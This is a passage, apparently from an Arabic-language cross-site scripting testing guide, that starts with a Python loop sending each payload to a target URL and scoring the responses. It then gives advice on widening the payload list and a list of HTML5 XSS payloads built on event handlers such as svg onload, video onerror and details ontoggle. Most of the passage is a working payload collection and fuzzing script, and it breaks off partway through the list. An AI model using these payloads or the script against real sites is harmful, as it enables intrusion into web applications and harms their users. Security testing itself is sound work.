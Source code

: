   ```python
  for payload in payloads:
      response = requests.get(url + payload)
      if "XSS" in response.text or response.status_code == 200:
          print(f"نجاح: {payload}")
      else:
          print(f"فشل: {payload}")
  ```
- **كيف يعمل**:
  - يرسل كل حقنة إلى URL المستهدف.
  - يتحقق من وجود "XSS" في الاستجابة أو رمز حالة 200 لتأكيد النجاح.
- **متى يُستخدم؟**:
  - عند الحاجة لاختبار سريع وآلي.

#### ج. تحليل الاستجابات
- **المحاولات**:
  - قارن الاستجابات بناءً على:
    - **رمز الحالة**: 200 (نجاح) مقابل 403/404 (فشل).
    - **طول الصفحة**: صفحة أطول قد تشير إلى نجاح.
    - **نص معين**: مثل "XSS" أو "error" في الاستجابة.
  - مثال: إذا أعادت `<svg onload=alert('XSS')>` تنبيهًا أو نص "XSS"، فهي ناجحة.
- **كيف يعمل**:
  - يتم تسجيل الاستجابات لتحديد الحقن الناجحة.
- **متى يُستخدم؟**:
  - لتحديد الحقن الأكثر فعالية بسرعة.

#### د. توسيع قائمة الحقن
- **المحاولات**:
  - أضف وسوم HTML5 إضافية (مثل `<marquee>`, `<keygen>`).
  - جرب أحداث أخرى (مثل `onpointerover`, `onloadstart`).
  - اختبر دمج الحقن (مثل `<svg onload=console.log('XSS')><script>alert(1)</script>`).
- **كيف يعمل**:
  - يتم إنشاء قائمة موسعة تشمل كل المتغيرات الممكنة.
  - مثال: إضافة `<video onplay=alert('XSS')><source src=x></video>` إلى القائمة.
- **متى يُستخدم؟**:
  - عند الحاجة لتغطية شاملة للسياقات.

---



1. وسوم HTML5 مع أحداث تلقائية:
- <svg onload=alert('XSS')>: يُنفذ التنبيه عند تحميل SVG.
- <svg onload=alert(document.domain)>: يعرض النطاق عند تحميل SVG.
- <svg onload=console.log('XSS')>: يسجل "XSS" عند تحميل SVG.
- <video poster=x onerror=alert('XSS')>: يُنفذ التنبيه عند فشل صورة الفيديو.
- <video><source src=x onerror=alert(1)></video>: يُنفذ التنبيه عند فشل مصدر الفيديو.
- <audio src=x onerror=alert('XSS')>: يُنفذ التنبيه عند فشل تحميل الصوت.
- <canvas id=c><script>document.getElementById('c').getContext('2d').fillText('XSS',10,50);alert('XSS')</script>: يرسم نص ويُنفذ تنبيه.
- <details open ontoggle=alert('XSS')>: يُنفذ التنبيه عند فتح/إغلاق العنصر.
- <meter value=2 min=0 max=10 onload=alert(1)>2/10</meter>: يُنفذ التنبيه عند تحميل المقياس.
- <progress value=50 max=100 onload=alert('XSS')>50%</progress>: يُنفذ التنبيه عند تحميل شريط التقدم.
